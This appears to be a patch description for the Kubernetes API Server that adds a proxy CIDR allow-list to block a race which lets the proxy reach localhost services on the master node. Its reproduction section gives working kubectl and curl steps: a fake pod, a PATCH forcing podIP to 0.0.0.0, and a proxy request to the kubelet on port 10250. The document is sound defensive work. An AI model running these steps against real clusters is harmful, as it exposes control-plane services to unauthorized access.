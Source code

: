 ## What does it do

With this patch it is possible to have the API Server only establish proxy connections to a set of allow-listed IPs. Conversely, the API Server will refuse to perform a proxy operations to IPs in a CIDR that has not been allowed.

Via the `api/v1/namespaces/default/pods/<pod>:<container>:<port>/proxy/pods` endpoint, the API Server proxy TCP[1] connections from a client to any pod. To do so the API Server directly establish a connection with the pod by contacting the pod's IP address.

Note: the "/proxy" verb also exists for nodes and services. For nodes, the patch is 1 layer of defence, another is that apiserver does tls server authentication with kubelets (whose certificates must be signed by our eks-signer).
For services, another layer is that apiserver validation prevents Endpoints from being created with bad IPs.

[1] Ticket to track UDP support: https://github.com/kubernetes/kubernetes/issues/47862

## Why do we need it

There is a race where an actor override a pod's IP to `127.0.0.1` or `0.0.0.0` and then asks the API Server to establish a proxy connection with that pod. When the actor wins the race, the API Server (running on the master node)
will proxy connection to other services running on that same master node.

This means the actor now gets access to services that we do not want exposed to customers.

In order to prevent this from happening, we add a `--proxy-cidr-allowlist` option to the API Server. We set the CIDR list to the customer's subnets CIDR, effectively preventing the API Server from proxying with services running on localhost.


## How to reproduce

```
# Terminal 1:
kubectl proxy

# Terminal 2:
cat <<EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
  name: fake-pod
  finalizers:
  - kubernetes
spec:
  nodeName: some.fake.node
  containers:
  - image: nginx
    name: nginx
    ports:
    - containerPort: 80
EOF

# Force pod ip to 0.0.0.0
curl -k -XPATCH \
    -H "Content-Type: application/json-patch+json" \
    --data '[{"op": "add", "path": "/status/phase", "value": "Running"},{"op": "add", "path": "/status/podIP", "value": "0.0.0.0"}]' \
    http://127.0.0.1:8001/api/v1/namespaces/default/pods/fake-pod/status

# Proxy to kubelet running on API Server
curl -k -XGET \
    -H "Content-Type: application/json-patch+json" \
    -H "Accept: application/json" \
    http://127.0.0.1:8001/api/v1/namespaces/default/pods/https:fake-pod:10250/proxy/pods
```
